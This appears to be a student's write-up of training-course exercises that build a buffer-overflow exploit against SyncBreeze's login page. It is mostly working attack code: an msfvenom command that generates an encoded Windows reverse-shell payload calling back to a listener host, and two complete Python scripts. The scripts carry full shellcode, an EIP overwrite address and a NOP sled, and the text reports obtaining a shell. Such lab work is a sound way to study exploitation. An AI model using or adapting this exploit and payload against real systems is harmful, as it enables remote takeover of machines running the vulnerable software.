




### 11.2.9.1 Exercises
#### 1. Update your PoC to include a working payload.

1. Generate Payload in MSFVenom and encode while avoiding bad characters.

   ```python
   msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
   ```

2. Update payload

   ```python
    #!/usr/bin/python    
   import socket
                                                                                                                     
   try:        
       print "\nSending evil buffer....."
                               
       filler = "A" * 780
       eip  = "\x83\x0c\x09\x10"
       offset = "C" * 4
       shellcode = ("\xd9\xec\xd9\x74\x24\xf4\x5e\xba\x24\x06\x98\x96\x31\xc9\xb1"                                   
               "\x52\x83\xee\xfc\x31\x56\x13\x03\x72\x15\x7a\x63\x86\xf1\xf8"                                        
               "\x8c\x76\x02\x9d\x05\x93\x33\x9d\x72\xd0\x64\x2d\xf0\xb4\x88"                                        
               "\xc6\x54\x2c\x1a\xaa\x70\x43\xab\x01\xa7\x6a\x2c\x39\x9b\xed"
               "\xae\x40\xc8\xcd\x8f\x8a\x1d\x0c\xd7\xf7\xec\x5c\x80\x7c\x42"
               "\x70\xa5\xc9\x5f\xfb\xf5\xdc\xe7\x18\x4d\xde\xc6\x8f\xc5\xb9"
               "\xc8\x2e\x09\xb2\x40\x28\x4e\xff\x1b\xc3\xa4\x8b\x9d\x05\xf5"
               "\x74\x31\x68\x39\x87\x4b\xad\xfe\x78\x3e\xc7\xfc\x05\x39\x1c"
               "\x7e\xd2\xcc\x86\xd8\x91\x77\x62\xd8\x76\xe1\xe1\xd6\x33\x65"
               "\xad\xfa\xc2\xaa\xc6\x07\x4e\x4d\x08\x8e\x14\x6a\x8c\xca\xcf"
               "\x13\x95\xb6\xbe\x2c\xc5\x18\x1e\x89\x8e\xb5\x4b\xa0\xcd\xd1"
               "\xb8\x89\xed\x21\xd7\x9a\x9e\x13\x78\x31\x08\x18\xf1\x9f\xcf"
               "\x5f\x28\x67\x5f\x9e\xd3\x98\x76\x65\x87\xc8\xe0\x4c\xa8\x82"
               "\xf0\x71\x7d\x04\xa0\xdd\x2e\xe5\x10\x9e\x9e\x8d\x7a\x11\xc0"
               "\xae\x85\xfb\x69\x44\x7c\x6c\x56\x31\x09\xb4\x3e\x40\xf5\x5b"
               "\xff\xcd\x13\x09\xef\x9b\x8c\xa6\x96\x81\x46\x56\x56\x1c\x23"
               "\x58\xdc\x93\xd4\x17\x15\xd9\xc6\xc0\xd5\x94\xb4\x47\xe9\x02"
               "\xd0\x04\x78\xc9\x20\x42\x61\x46\x77\x03\x57\x9f\x1d\xb9\xce"
               "\x09\x03\x40\x96\x72\x87\x9f\x6b\x7c\x06\x6d\xd7\x5a\x18\xab"
               "\xd8\xe6\x4c\x63\x8f\xb0\x3a\xc5\x79\x73\x94\x9f\xd6\xdd\x70"
               "\x59\x15\xde\x06\x66\x70\xa8\xe6\xd7\x2d\xed\x19\xd7\xb9\xf9"
               "\x62\x05\x5a\x05\xb9\x8d\x6a\x4c\xe3\xa4\xe2\x09\x76\xf5\x6e"
               "\xaa\xad\x3a\x97\x29\x47\xc3\x6c\x31\x22\xc6\x29\xf5\xdf\xba"
               "\x22\x90\xdf\x69\x42\xb1")
   
       inputBuffer = filler + eip + offset + shellcode
   
       content = "username=" + inputBuffer + "&password=A"
   
       buffer = "POST /login HTTP/1.1\r\n"
       buffer += "Host: 192.168.216.10\r\n"
       buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
       buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
       buffer += "Accept-Language: en-US,en;q=0.5\r\n"
       buffer += "Referer: http://192.168.216.10/login\r\n"
       buffer += "Connection: close\r\n"
       buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
       buffer += "Content-Length: "+str(len(content))+"\r\n"
       buffer += "\r\n"
   
       buffer += content
   
       s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
           
       s.connect(("192.168.216.10", 80))
       s.send(buffer)
           
       s.close()
       print "\Done!"
   except:
       print "\nCould not connect!"
   ```

#### 2. Attempt to execute your exploit without using a NOP sled and observe the decoder corrupting the stack.

1. Initiated attack
   
2. Stack corruption occurs, as shown in the dump where the A's and C's were overwritten
   

#### 3. Add a NOP sled to your PoC and obtain a shell from SyncBreeze.

1. Updated code with NOP sled

   ```python
   #!/usr/bin/python                                                                                        [11/5435]
   import socket        
   
   try:                                                                                                              
       print "\nSending evil buffer....."
                                                            
       filler = "A" * 780
       eip  = "\x83\x0c\x09\x10"
       offset = "C" * 4
       nops = "\x90" * 10
       shellcode = ("\xd9\xec\xd9\x74\x24\xf4\x5e\xba\x24\x06\x98\x96\x31\xc9\xb1"                                   
               "\x52\x83\xee\xfc\x31\x56\x13\x03\x72\x15\x7a\x63\x86\xf1\xf8"                                        
               "\x8c\x76\x02\x9d\x05\x93\x33\x9d\x72\xd0\x64\x2d\xf0\xb4\x88"                                        
               "\xc6\x54\x2c\x1a\xaa\x70\x43\xab\x01\xa7\x6a\x2c\x39\x9b\xed"
               "\xae\x40\xc8\xcd\x8f\x8a\x1d\x0c\xd7\xf7\xec\x5c\x80\x7c\x42"
               "\x70\xa5\xc9\x5f\xfb\xf5\xdc\xe7\x18\x4d\xde\xc6\x8f\xc5\xb9"
               "\xc8\x2e\x09\xb2\x40\x28\x4e\xff\x1b\xc3\xa4\x8b\x9d\x05\xf5"
               "\x74\x31\x68\x39\x87\x4b\xad\xfe\x78\x3e\xc7\xfc\x05\x39\x1c"
               "\x7e\xd2\xcc\x86\xd8\x91\x77\x62\xd8\x76\xe1\xe1\xd6\x33\x65"
               "\xad\xfa\xc2\xaa\xc6\x07\x4e\x4d\x08\x8e\x14\x6a\x8c\xca\xcf"
               "\x13\x95\xb6\xbe\x2c\xc5\x18\x1e\x89\x8e\xb5\x4b\xa0\xcd\xd1"
               "\xb8\x89\xed\x21\xd7\x9a\x9e\x13\x78\x31\x08\x18\xf1\x9f\xcf"
               "\x5f\x28\x67\x5f\x9e\xd3\x98\x76\x65\x87\xc8\xe0\x4c\xa8\x82"
               "\xf0\x71\x7d\x04\xa0\xdd\x2e\xe5\x10\x9e\x9e\x8d\x7a\x11\xc0"
               "\xae\x85\xfb\x69\x44\x7c\x6c\x56\x31\x09\xb4\x3e\x40\xf5\x5b"
               "\xff\xcd\x13\x09\xef\x9b\x8c\xa6\x96\x81\x46\x56\x56\x1c\x23"
               "\x58\xdc\x93\xd4\x17\x15\xd9\xc6\xc0\xd5\x94\xb4\x47\xe9\x02"
               "\xd0\x04\x78\xc9\x20\x42\x61\x46\x77\x03\x57\x9f\x1d\xb9\xce"
               "\x09\x03\x40\x96\x72\x87\x9f\x6b\x7c\x06\x6d\xd7\x5a\x18\xab"
               "\xd8\xe6\x4c\x63\x8f\xb0\x3a\xc5\x79\x73\x94\x9f\xd6\xdd\x70"
               "\x59\x15\xde\x06\x66\x70\xa8\xe6\xd7\x2d\xed\x19\xd7\xb9\xf9"
               "\x62\x05\x5a\x05\xb9\x8d\x6a\x4c\xe3\xa4\xe2\x09\x76\xf5\x6e"
               "\xaa\xad\x3a\x97\x29\x47\xc3\x6c\x31\x22\xc6\x29\xf5\xdf\xba"
               "\x22\x90\xdf\x69\x42\xb1")
   
       inputBuffer = filler + eip + offset + nops + shellcode
   
       content = "username=" + inputBuffer + "&password=A"
   
       buffer = "POST /login HTTP/1.1\r\n"
       buffer += "Host: 192.168.216.10\r\n"
       buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
       buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
       buffer += "Accept-Language: en-US,en;q=0.5\r\n"
       buffer += "Referer: http://192.168.216.10/login\r\n"
       buffer += "Connection: close\r\n"
       buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
       buffer += "Content-Length: "+str(len(content))+"\r\n" 
       buffer += "\r\n"
       buffer += content
   
       s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
            
       s.connect(("192.168.216.10", 80))
       s.send(buffer)
            
       s.close()
       print "\Done!"
   except:
       print "\nCould not connect!"
   ```

2. Setup netcat listener and Initiated attack:
   
   
3. I kept getting an access violation in Immunity, but I assume that is expected based on the next exercise, because running it without Immunity lands me a shell:
   